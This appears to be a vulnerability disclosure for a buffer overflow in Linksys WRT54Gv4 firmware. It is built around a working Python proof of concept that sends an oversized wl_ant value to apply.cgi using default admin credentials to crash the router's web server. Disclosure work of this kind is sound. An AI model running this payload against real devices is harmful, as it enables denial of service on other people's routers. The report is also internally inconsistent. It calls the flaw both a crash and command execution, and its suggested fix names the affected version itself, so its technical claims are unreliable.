 # CVE Report - Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have a Buffer Overflow vulnerability in the Start_EPI function,which allows remote attackers to cause a web server crash via parameter **wl_ant**  passed to the binary through a POST request.



## POC

```python
import requests

url = f"http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": f"http://{ip}",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "StartEPI": "1",
    "wl_ant": "a"*1000,
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)
```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the wl_ant value. It enters system execution, resulting in a command execution vulnerability.

![image](https://github.com/user-attachments/assets/7c2104e8-2d4e-4ac8-aec1-c977f3b14bb7)


## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

